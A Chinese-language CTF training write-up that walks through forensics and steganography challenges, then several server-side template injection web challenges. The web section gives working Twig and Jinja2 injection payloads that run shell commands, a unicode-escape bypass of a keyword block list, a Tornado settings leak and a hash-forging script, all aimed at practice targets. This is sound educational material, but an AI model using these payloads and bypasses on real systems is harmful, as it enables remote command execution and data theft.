

# CUCCTF训练2025 [03-05 ~ 03-11]
# 第一部分
## 本期主题关键词
图片隐写，音视频隐写，流量分析，电子取证，AI
## 本周题目

- [[SWPU 2019]神奇的二维码](https://www.nssctf.cn/problem/39)

- [[ccbciscn 2024]WinFT_1](https://github.com/CTF-Archives/2024-ccbciscn/tree/main )

- [[ccbciscn 2024]WinFT_2](https://github.com/CTF-Archives/2024-ccbciscn/tree/main)

- [[ccbciscn 2024]WinFT_5](https://github.com/CTF-Archives/2024-ccbciscn/tree/main)
### 神奇的二维码
图片binwalk出来一堆东西<br>
<br>
<br>
encode.txt里明显是base64<br>
<br>
解密得到asdfghjkl1234567890，发现这个是看看flag的解压密码，里面就是图片，已经被walk出来了<br>
flag.doc里有很长的base64<br>
<br>
解码多次后得到comEON_YOuAreSOSoS0great，发现这个是18394的解压密码，解压出MP3文件<br>
<br>
听到摩斯密码<br>
用audacity打开查看<br>
<br>
破译得到morseisveryveryeasy，包上NSSCTF{}提交<br>
注意：摩斯密码不区分大小写，提交flag时需多尝试不同大小写<br>

### WinFT_1
**某单位网管日常巡检中发现某员工电脑（IP：192.168.116.123）存在异常外连及数据传输行为，随后立即对该电脑进行断网处理，并启动网络安全应急预案进行排查。受控机木马的回连域名及ip及端口是（示例：flag{xxx.com:127.0.0.1:2333}）**

拿到一个虚拟机的文件
<br>
用vmware打开虚拟机，因为需要木马的回连域名及ip及端口，所以用netstat看一下网络状态<br>
<br>
发现有一个状态为SYN_SENT的连接，比较可疑，用-n查看他的ip地址
<br>
再打开火绒剑的网络模块确认一下<br>
<br>
的确有一个安全状态未知的进程在和刚刚看到的外部地址建立连接，推测这就是木马的回连ip<br>

得到flag{miscsecure.com:192.168.116.130:443}

### WinFT_2
**找出受控机启动项中隐藏flag**
根据提示启动项，可以用taskschd.msc检查计划任务程序

在这个DriverUpdate的描述中找到了flag，base64解码

得到的疑似ascii编码，写一个python程序，利用正则表达式提取其中的数字并转化为字符输出
```python
import re

# 原始字符串
text = "&#78;&#105;&#99;&#101;&#65292;&#102;&#108;&#97;&#103;&#32;&#105;&#115;&#32;&#123;&#65;&#69;&#83;&#95;&#101;&#110;&#99;&#114;&#121;&#112;&#116;&#105;&#111;&#110;&#95;&#97;&#108;&#103;&#111;&#114;&#105;&#116;&#104;&#109;&#95;&#105;&#115;&#95;&#97;&#110;&#95;&#101;&#120;&#99;&#101;&#108;&#108;&#101;&#110;&#116;&#95;&#101;&#110;&#99;&#114;&#121;&#112;&#116;&#105;&#111;&#110;&#95;&#97;&#108;&#103;&#111;&#114;&#105;&#116;&#104;&#109;&#125;"
# 提取 &#数字; 形式的数字
numbers = re.findall(r'&#(\d+);', text)
# 转换为ASCII字符
decoded_text = ''.join(chr(int(num)) for num in numbers)
print(decoded_text)
```
Nice，flag is {AES_encryption_algorithm_is_an_excellent_encryption_algorithm}

### WinFT_5
**分析流量，获得压缩包中得到答案**
（这里虚拟机内wireshark版本不兼容，把.cap文件拿出来分析）<br>
直接搜tcp contains "flag"

追踪tcp流后在里面搜flag找到位置

（注意最后有一串疑似base64的码，后面要用）<br>
看出来大概是在压缩文件里面，但直接导出会显示压缩包损坏<br>

回到前面看到是sever的GET请求，在某些情况下，服务器可能刻意将ZIP文件的一部分提供给client，用于隐写规避某些检测，所以我们可以去找对应的client的请求去看看<br>
过滤http.request.method == "GET"后可以看到第一个就是client，且仅此一个

（注意这里的Time，Client在Server之前，后面会用到）
追踪tcp流

发现文件头确实在这里，记住client和server这两个包的序号（其实也不用，到时候会发现就是前两个），导出http对象


我们前面看到了client在server之前，外加client中包含PK头，所以合理怀疑Client中的数据包应该在Server之前

拼接好后导出为zip，解压发现需要密码

这时候用到之前提到的base64，解码

这个"时间线关联非常重要"就是解压密码，同时也呼应了前面通过时间线判断client的数据在server之前

# 第二部分
## 本周主题关键词

Web，SSTI，Jinja，Tornado

## 本周题目
- [SWPU-2024-新生引导-ez_SSTI  ](https://www.nssctf.cn/problem/5808)
- [BJDCTF-2020-Cookie is so subtle! ](https://www.nssctf.cn/problem/716)
- [GHCTF-2025-upload?SSTI!](https://www.nssctf.cn/contest/710/)
- [护网杯 2018-easy_tornado](https://www.nssctf.cn/problem/175)
- [GWCTF 2019-你的名字 ](https://www.nssctf.cn/problem/259)

### 新生引导-ez_SSTI
<br>
点进NSS<br>
<br>
题干有提示fenjing，所以去安装fenjing工具，启动工具<br>
```bash
python -m fenjing webui
```
打开网页，扫描题目给的url<br>
（注：这里有可能扫描的非常慢，解决方案是重启电脑。。）<br>
<br>
上图为扫描后直接cat /flag的结果，找到flag<br>

### Cookie is so subtle!
打开网页一共有两个主要界面，先看flag界面，可以输入用户名，输入后返回“Hello 用户名”,或许可以ssti注入，这里放一张经典判断网站模板的图<br>
<br>
```
{{7*'7'}}   49          Twig
{{7*'7'}}   7777777     Jinja2
```
<br>
<br>
可以判断是twig框架，去找一个注入twig的模板<br>
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("z注入的bash命令")}}
```
为了找到flag位置，将注入命令设为find / -name flag<br>
<br>
但发现不能直接注入，去看看hint界面，没什么东西<br>
<br>
去看看源代码<br>
<br>
提示让我们看看cookie，试试抓下包<br>
<br>
放包后发现cookie行多了user变量，结合提示在这里修改应该就不会被拦了<br>
<br>
<br>
找到flag位置后注入cat /flag就可以看到flag了<br>
<br>
<br>
### upload?SSTI!
<br>
题目直接把网页的源码给我们了，我们只看关键部分
```python
@app.route('/file/<path:filename>')
def view_file(filename):
    try:
        # 1. 过滤文件名
        safe_filename = secure_filename(filename)
        if not safe_filename:
            abort(400, description="无效文件名")

        # 2. 构造完整路径
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], safe_filename)

        # 3. 路径安全检查
        if not is_safe_path(app.config['UPLOAD_FOLDER'], file_path):
            abort(403, description="禁止访问的路径")

        # 4. 检查文件是否存在
        if not os.path.isfile(file_path):
            abort(404, description="文件不存在")

        suffix=os.path.splitext(filename)[1]
        print(suffix)
        if suffix==".jpg" or suffix==".png" or suffix==".gif":
            return send_from_directory("static/uploads/",filename,mimetype='image/jpeg')

        if contains_dangerous_keywords(file_path):
            # 删除不安全的文件
            os.remove(file_path)
            return jsonify({"error": "Waf!!!!"}), 400

        with open(file_path, 'rb') as f:
            file_data = f.read().decode('utf-8')
        tmp_str = """<!DOCTYPE html>
        <html lang="zh">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>查看文件内容</title>
        </head>
        <body>
            <h1>文件内容：{name}</h1>  <!-- 显示文件名 -->
            <pre>{data}</pre>  <!-- 显示文件内容 -->

            <footer>
                <p>&copy; 2025 文件查看器</p>
            </footer>
        </body>
        </html>
        """.format(name=safe_filename, data=file_data)

        return render_template_string(tmp_str)
```
这里是对文件的处理，代码使用了 render_template_string(tmp_str) 直接渲染字符串，如果filedata中包含注入则会被执行，从@app.route('/file/<path:filename>')看出可以在/file/文件夹下访问渲染后的结果，可以注入payload：
```python
{{ lipsum|attr("__globals__")|attr("get")("os")|attr("popen")("cat /f*")|attr("read")() }}
```
这个 payload 是基于 Jinja2 模板 的 SSTI 攻击代码，用于远程执行命令 cat /f*，尝试读取 /flag 文件。<br>
但存在contains_dangerous_keywords检测并屏蔽关键词，函数如下
```python
def contains_dangerous_keywords(file_path):
    dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]

    with open(file_path, 'rb') as f:
        file_content = str(f.read())


        for keyword in dangerous_keywords:
            if keyword in file_content:
                return True  # 找到危险关键字，返回 True

    return False  # 文件内容中没有危险关键字
```
可以通过\uxxxx表示unicode编码，将敏感字符全部替换为unicode编码，绕过检测
```python
{{ lipsum|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u0067\u0065\u0074")("\u006f\u0073")|attr("\u0070\u006f\u0070\u0065\u006e")("cat /f*")|attr("\u0072\u0065\u0061\u0064")()}}
```
<br>
<br>
上传之后去/file文件夹下找到自己上传的文件<br>
<br>
找到flag
### easy_tornado
一共三个界面<br>
<br>
<br>
<br>
结合url
```
http://node4.anna.nssctf.cn:28713/file?filename=/hints.txt&filehash=76ac0b8c23b4cc37f0acd0c60e378e65
```
得出如下结论
- flag在/fllllllllllllag中
- 漏洞与tornado render有关
- filehash的格式如图，需要获取cookie_secret

render是一个类似模板的东西，可以使用不同的参数来访问网页，在tornado模板中，存在一些可以访问的快速对象；在tornado的文档搜索cookie_secret，发现在settings中，可以通过handler.settings定位，利用模板构造payload
```
error?msg={{handler.settings}}
```
<br>
找到cookie_secret后可以开始构造filehash了
```python
from hashlib import md5

filename = "/fllllllllllllag"
cookie = "81faa692-f79e-4f21-9b92-a220ac4cba27"
md5_1 = md5(filename.encode()).hexdigest()
md5_2 = md5((cookie + md5_1).encode()).hexdigest()
print(md5_2)
```
得到md5值d6d65970ada8db42620009e7db3ec8c3
<br>
### 你的名字
<br>
很明显要从这里注入，测试{{}}发现报错，可能存在waf，用yakit进行一下fuzz测试
<br>
可以从中看到屏蔽了一些关键词，例如图中的item，而且发现没有被屏蔽掉的的方式可以不用{{}}达成相同的效果<br>
本应构造payload如下
```

```
为了绕过关键词检测，把关键词用字符串拼接
```

```
<br>
看到flag_1s_Hera，cat出来看看
```

```
<br>
让我们去环境变量里看看
```

```
<br>
找到flag<br>
